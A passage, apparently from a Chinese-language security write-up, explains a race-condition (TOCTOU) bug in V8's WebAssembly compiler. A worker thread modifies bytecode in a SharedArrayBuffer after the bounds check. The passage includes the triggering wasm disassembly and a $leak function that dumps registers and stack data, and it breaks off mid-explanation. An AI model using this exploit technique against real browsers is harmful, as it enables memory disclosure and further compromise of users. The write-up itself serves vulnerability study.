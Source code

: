 ```javascript
//worker.terminate(); 
</script>
</html>
```

WebAssembly代码的文本格式如下所示：

```code
00002b func[0]:
00002d: 41 2a                      | i32.const 42
00002f: 0b                         | end
000030 func[1]:
000032: 10 00                      | call 0
000034: 41 01                      | i32.const 1
000036: 6a                         | i32.add
000037: 0b                         | end
```

首先，将上述二进制格式WebAssembly代码放入SharedArrayBuffer中，然后使用SharedArrayBuffer作为缓冲区创建TypedArray对象。之后，将创建一个工作线程，并将SharedArrayBuffer传递给新创建的工作线程。当主线程解析WebAssembly代码时，工作线程同时修改SharedArrayBuffer。在这种情况下，竞赛状况会导致[TOCTOU](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use)问题。在主线程绑定检查之后，工作线程可以修改指令“call 0”到“call 128”，然后由主线程解析和编译，所以发生了OOB访问。

因为“call 0”Web程序集指令可以被修改来调用任何其他的Web程序集函数，所以这个错误的利用很简单。如果“call 0”被修改为“call $leak”，则寄存器和堆栈内容被转储到Web Assembly内存。因为函数0和函数$ leak具有不同数量的参数，这导致堆栈中的许多有用的数据被泄漏。

 ```code
  (func $leak(param i32 i32 i32 i32 i32 i32)(result i32)
    i32.const 0
    get_local 0
    i32.store
    i32.const 4
    get_local 1
    i32.store
    i32.const 8
    get_local 2
    i32.store
    i32.const 12
    get_local 3
    i32.store
    i32.const 16
    get_local 4
    i32.store
    i32.const 20
    get_local 5
    i32.store
    i32.const 0
  ))

 ```
  
不仅可以修改指令“call 0”，还可以修改任何“call funcx”指令。假设funcx是一个具有6个参数的wasm函数，当v8在ia32体系结构中编译funcx时，前5个参数通过寄存器传递，第六个参数通过栈传递。所有参数都可以通过JavaScript设置为任何值：
